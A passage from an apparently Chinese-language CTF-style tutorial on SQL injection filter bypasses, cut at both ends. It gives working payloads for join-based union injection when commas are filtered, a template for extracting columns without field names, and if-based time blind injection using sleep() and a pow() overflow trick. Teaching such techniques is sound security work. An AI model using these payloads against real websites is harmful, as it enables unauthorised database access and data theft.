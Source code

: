 上面这些都涉及到了sql基本语句，这里就不一一举例了。大家可以多在本地环境试试，加深理解



4、join注入

**payload：**：

1' union **select** * **from** (**select** 1) a **join** (**select** 2) b %23

优势：过滤了逗号的情况下使用

下面的payload(别的博客处摘抄来的)适用于过滤了逗号和字段名的情况下使用

union all
 **select** * **from**(
     (**select** 1)a **join**(
         **select** F.[需要查询的字段号] **from**(
             **select** * **from** [需要查询的表有多少个字段就**join**多少个]
             **union**
             **select** * **from** [需要查询的表] [**limit**子句]
         )F*-- 我们创建的虚拟表没有表名，因此定义一个别名，然后直接[别名].[字段号]查询数据*
     )b*-- 同上[还差多少字段就再join多少个，以满足字段数相同的原则]*
 )

具体的使用方法不在本文的讨论范围内，具体的使用可以看看下面的文章：

<https://blog.csdn.net/qq_33020901/article/details/78906268>



5、带!的注入

**直接看下面的payload，适用于and、or、^被过滤的情况下使用，有时候可能也会使用到，但是具体的原理不是很明白，大家可以自行google**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ayvk5kgzj20qh0en76v.jpg)

6、if盲注(合理利用条件)

if盲注的基本格式：

**if**(条件,条件为真执行的语句,条件为假执行的语句)

举个例子：

admin' **if**(ascii(mid(user(),1,1))=100,sleep(5),1)

用好if盲注的关键是条件的输入，有一道BCTF的注入题的wp用的就是if盲注

wp链接：<https://www.kingkk.com/2018/04/bctf2018-love-q/>

写博客的这位大佬巧妙利用了**pow函数数值溢出的特性**，使得经过if判断后的条件会报错，但是不执行该语句时语法上是没问题的

原理如下：

mysql> **select if(1,1,pow(2,22222222222)); //条件为真时，返回1**

+——————————————+

| if(1,1,pow(2,22222222222)) |

+——————————————+
